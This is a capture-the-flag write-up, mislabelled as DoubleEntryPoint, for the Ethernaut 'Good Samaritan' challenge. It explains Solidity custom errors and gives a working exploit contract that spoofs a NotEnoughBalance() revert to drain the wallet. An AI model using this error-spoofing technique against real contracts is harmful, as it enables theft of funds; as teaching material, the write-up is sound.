 # Writeup for DoubleEntryPoint

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity better. Each challenge involves deploying a contract and exploiting its vulnerabilities. If you're new to Solidity and haven't deployed a smart contract before, you can learn how to do so using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge Description

This instance represents a Good Samaritan that is wealthy and ready to donate some coins to anyone requesting it.

Would you be able to drain all the balance from his Wallet?

Things that might help:

- Solidity Custom Errors

### Key Concepts To Learn

In order to solve this challenge you need to learn how errors works in solidity. I will be explaining two types of errors in solidity.

While writing contracts we will write some checks for function calls. If the checks are not satisfied we will revert. But reverting an be done in two ways. Check the below examples.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract FortaA{
    error NotEnoughBalance();

    function hello()external pure {
        revert("NotEnoughBalance()");
    }
}
```

When we revert in this way during the revert the function will return the "NotEnoughBalance()" as string in hex format. Check the below example observe that.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract FortaA{

    function hello()external pure {
        revert("NotEnoughBalance()");
    }
}


contract Forta {
    error NotEnoughBalance();
    bytes public mainerr;
    FortaA forta=FortaA(//__FortaA_ADDRESS);


    function notify() external {
        try forta.hello() {
        } catch (bytes memory arr) {
            mainerr=(arr);
        }
    }

}

```

Deploy the FortaA contract first and then Deploy Forta contract. Once you deploy call notify() function in Forta. It will return bunch of bytes data. When you convert that bytes data from hex to string you will get the reverted string. Check the below image.

<p align="center">
  <img src="img/img1.png" />
</p>

Now i will explain custom errors. Check the below example.

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract FortaA{
    error NotEnoughBalance();

    function hello()external pure {
        revert NotEnoughBalance();
    }
}


contract Forta {
    error NotEnoughBalance();
    bytes public mainerr;
    FortaA forta=FortaA(//__FortaA_ADDRESS);


    function notify() external {
        try forta.hello() {
        } catch (bytes memory arr) {
            mainerr=(arr);
        }
    }

}
```

Deploy the FortaA contract first and then Deploy Forta contract. Once you deploy call notify() function in Forta. It will return function selector of `"NotEnoughBalance()"`.

### Contract Explanation

If you understand the contract, you can move on to the [exploit](#exploit) part. If you're a beginner, please read the Contract Explanation to gain a better understanding of Solidity.

Click [here](./src/contracts/DoubleEntryPoint.sol) to view the contract source code.

<details>
<summary>Click to view the contract explanation</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns (bool enoughBalance) {
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if (msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}

```

First i will explain GoodSamaritan contract.

GoodSamaritan contract has two state variables wallet (address) and coin (address) . wallet is of type Wallet and coin is of type Coin. Wallet and Coin are two contracts.

```solidity

constructor() {
    wallet = new Wallet();
    coin = new Coin(address(wallet));

    wallet.setCoin(coin);
}

```

The constructor creates a `Wallet` contract and `Coin` contract. Then it will call the `setCoin()` function in the `Wallet` contract.

```solidity
function requestDonation() external returns (bool enoughBalance) {
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
```

The function `requestDonation()` is an external function, which means it can only be called by other contracts or EOAs. The function will execute the code in the `try` block and call the `donate10()` function in the `Wallet` contract. If the function call is successful, it will return `true`. If there is any error while calling the `donate10()` function, then the code in the `catch` block will execute instead of reverting. The `catch` block will check if the error is `NotEnoughBalance()` or not. If it is `NotEnoughBalance()`, then it will call the `transferRemainder()` function in the `Wallet` contract and then return `false`.

Now i will explain the Coin contract.

```solidity

interface INotifyable {
    function notify(uint256 amount) external;
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10 ** 6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if (amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if (dest_.isContract()) {
                // notify contract
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

```

The `Coin` contract has a single state variable `balances`. The `balances` is a mapping of address to `uint256`. It basically stores the balance of each address that holds this coin.

The contract is using the `Address` library for address variables, which means all the functions in the library can be used on addresses.

The contract has an error `InsufficientBalance()` which takes two arguments of type `uint256` as inputs.

```
constructor(address wallet_) {
    // one million coins for Good Samaritan initially
    balances[wallet_] = 10 ** 6;
}
```

In the constructor, it takes the address of the `Wallet` contract as input and sets the balance of the Wallet `contract` to 10^6. The `GoodSamaritan` contract passes the address of Wallet contract to the constructor of Coin contract.

```solidity
function transfer(address dest_, uint256 amount_) external {
    uint256 currentBalance = balances[msg.sender];
    // transfer only occurs if balance is enough
    if (amount_ <= currentBalance) {
        balances[msg.sender] -= amount_;
        balances[dest_] += amount_;

        if (dest_.isContract()) {
            // notify contract
            INotifyable(dest_).notify(amount_);
        }
    } else {
        revert InsufficientBalance(currentBalance, amount_);
    }
}

```

The `transfer()` function takes two arguments of type **address** (dest*) and **uint256** (amount*) as input. The function will make some checks, and if all checks pass, it will send the specified amount to the destination address. If the destination address is a contract, it will call the `notify()` function in the destination contract.

Now let's go through `Wallet` contract.

```solidity
contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if (msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}



```

The `Wallet` contract has a state variable of type `Coin` (address).

The contract has two errors defined: `OnlyOwner()` and `NotEnoughBalance()`.

The `onlyOwner()` modifier will check if the `msg.sender` (caller) is the owner or not. If the caller is not the owner, it will revert with the `OnlyOwner()` error.

The `constructor` sets the owner to `msg.sender` (deployer of Wallet contract).

```solidity
function donate10(address dest_) external onlyOwner {
    // check balance left
    if (coin.balances(address(this)) < 10) {
        revert NotEnoughBalance();
    } else {
        // donate 10 coins
        coin.transfer(dest_, 10);
    }
}
```

The `donate10()` function will take an argument of type **address** as input and execute the `onlyOwner` modifier. If the modifier passes, it will check if the `Wallet` contract has enough balance. If the `Wallet` contract balance is less than 10, it will revert with a `NotEnoughBalance()` error. If it has a balance of 10 or more, it will call the `transfer()` function in the `Coin` contract.

```solidity
function transferRemainder(address dest_) external onlyOwner {
    // transfer balance left
    coin.transfer(dest_, coin.balances(address(this)));
}
```

The `transferRemainder()` function will take an argument of type **address** (dest\_) as input and execute the `onlyOwner` modifier. If the modifier passes, it will call the `transfer` function by passing the destination address and the balance of the `Wallet` contract as arguments.

```solidity
function setCoin(Coin coin_) external onlyOwner {
    coin = coin_;
}
```

The `setCoin()` function will take an argument of type `Coin` (address) as input and execute the `onlyOwner` modifier. If the modifier passes, it will set the `coin` to the new `Coin` passed.

</details>

### Exploit

Our goal is to drain the balance of the Wallet contract.

We was given the instance of GoodSamaritan contract. In this contract the only function with which we can interact is requestDonation().

When we call `requestDonation`, it will call the `donate10()` function in the `Wallet` contract. The `donate10()` function will check whether the `Wallet` contract has a balance less than 10 or not. If it has a balance less than 10, it will revert with the `NotEnoughBalance()` error. If it has a balance of 10 or more, it will call the `transfer()` function in the `Coin` contract. The `transfer()` function will transfer 10 coins to the address passed by `donate10()`. If the receiver is a contract, the `transfer()` function will call the `notify()` function in the receiver.

But if the `donate10()` function reverts with the `NotEnoughBalance()` error, then the `requestDonation()` function in `GoodSamaritan` will call the `transferRemainder()` function in the `Wallet` contract. The `transferRemainder()` function will transfer the entire balance of the `Wallet` contract to the address passed by `donate10()`.

According to the contract logic, the `NotEnoughBalance()` error will be thrown only if the balance of the `Wallet` contract is less than 10. So when the balance is less than 10, it transfers the entire balance to the latest person who called the `requestDonation()` function in the `GoodSamaritan` contract. After this call, no one will be able to call `requestDonation()` and get donations.

If we check the constructor of the `Coin` contract, it sets the balance of the `Wallet` to 10^6. So, in order to drain the balance of the `Wallet` contract, we need to call the `requestDonation()` function 10^5 times, which will be a time-consuming task. Therefore, we need a shorter way to get the entire coins.

If we somehow make the `donate10()` function revert with the message `NotEnoughBalance()`, then it will transfer the entire tokens.

Suppose there are three contracts, and a function in one of the contracts calls functions in the other two contracts. If the functions in the other two contracts return the same error upon failure of some conditions, then the calling function won't be able to determine which contract the error originated from. We can take this as advantage and we can exploit the GoodSamaritan contract.

Now when we call the `requestDonation` in the `GoodSamaritan` contract, it will call `donate10()` in the `Wallet` contract. Then `donate10()` will call `transfer()` in the `Coin` contract, and the `transfer()` function will transfer 10 coins to the receiver. If the receiver is a contract, it will call the `notify()` function in the receiver contract, passing the amount of the transfer as an argument to `notify()`.

So in our `Exploit` contract, when the `notify()` function is called, we need to check if the transfer amount is 10 or not. If it is 10, then we need to revert with a `NotEnoughBalance()` error. Then the `transfer()` function will be reverted, and subsequently, the `donate10()` function will be reverted. Both calls will be reverted with data as the function selector of the `NotEnoughBalance()` error. Now the `try` block in `requestDonation()` will fail, and it will execute the `catch` block by passing the same error. Since the error returns the function selector of `NotEnoughBalance()`, the `if` condition will pass, and it will transfer the entire coins to the `requestDonation()` caller.

Below is the Exploit contract code.

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


interface IGoodSamaritan{
    function requestDonation()external returns (bool);
}

contract ExploitGoodSamaritan{
    ////////////////////////
    //////Errors////////////
    ////////////////////////

    error NotEnoughBalance();

    ///////////////////////
    ///State Variables/////
    ///////////////////////

    IGoodSamaritan samaritan;

    constructor(address _addr){
        samaritan=IGoodSamaritan(_addr);
    }


    function Exploit()public{
        samaritan.requestDonation();
    }

    function notify(uint256 _amount)public payable{
        if(_amount==10){
            revert NotEnoughBalance();
        }

    }

}
```

Deploy this contract and call the Exploit() function. Once the call is done successfully the challenge will be solved.

Hope you enjoyed this challenge.

### Key takeaways

We should not write our contract logic based on errors unless we are sure that the errors can only be thrown by our contract itself or in the way we intended. If our contract logic depends on errors and makes calls to other contracts, then malicious actors may revert with the same error and exploit our contract logic.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
